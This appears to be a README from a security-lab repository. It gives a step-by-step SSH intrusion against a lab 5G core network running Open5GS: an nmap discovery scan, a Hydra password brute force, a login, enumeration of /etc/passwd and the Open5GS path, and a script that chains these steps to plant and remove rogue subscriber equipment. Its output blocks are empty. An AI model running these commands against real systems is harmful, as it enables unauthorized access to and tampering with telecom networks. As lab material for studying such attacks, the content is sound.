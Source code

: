 # SSH Intruision

In this example the core network (running on 10.0.2.4) has an ssh server running to give admins remote access. The goal is for an attacker to discover this server, get access, and adjust the registered User epuipments as they like.

## Step One - Discovery

First the SSH server has to be discovered, this will be done with [Nmap](https://nmap.org/).
``` console
user@ue:~$ sudo nmap -p ssh 10.0.2.4 #check ssh
```
Resulting in the output:
``` console
```

## Step Two - Bruteforce

To connect to the server we need the login information of a user. For this we will use [Hydra](https://www.kali.org/tools/hydra/) which uses the list of most common passwords and usernames to try to find functioning pair of login data.
``` console
user@ue:~$ hydra -I -L ../Lists/Username_list.txt -P ../Lists/Password_list.txt 10.0.2.4 ssh -t 4
```
Resulting in the output:
``` console
```
## Step Three - Access

Now that we have access to the server we log in useing the password and username we found in the above step.
``` console
user@ue:~$ ssh admin@10.0.2.4
```

## Step Four - Poking about

Now that we are in the machine, we want to check where we can find core services running also if their might be other users on the machine.
``` console
admin@core:~$ otheruser=$(grep -w -v -e "nologin" -e "bin/false" -e "admin" -e "root" -e "sync" /etc/passwd | cut -d ":" -f 1)
admin@core:~$ echo "there is another user:  ${otheruser}"
admin@core:~$ path_to_open_5gs=$(find / -type d -name "open5gs" | head -n 1)
admin@core:~$ echo ${path_to_open_5gs}
admin@core:~$ cd ${path_to_open_5gs}
```
Resulting in the output:
``` console
```
Once we have the path of Open5gs we can use the python API to delete and or add subscribed UE's. To see the procces for that please refer to files [create_rogue_ue.sh](./create_rogue_ue.sh) and [delete_rogue_ue.sh](./delete_rogue_ue.sh)

## Step Five - Put it all together

To do all the following:

1. Scan for an ssh server.
2. Brutforce login.
3. Add a rogue UE with a Rogue Slice in the core.
4. Connect that rogue UE to the core. (in the works)
5. Delete the rogue UE and slice.

run the following:

```
user@ue:~$ ./ssh_rogue.sh
```

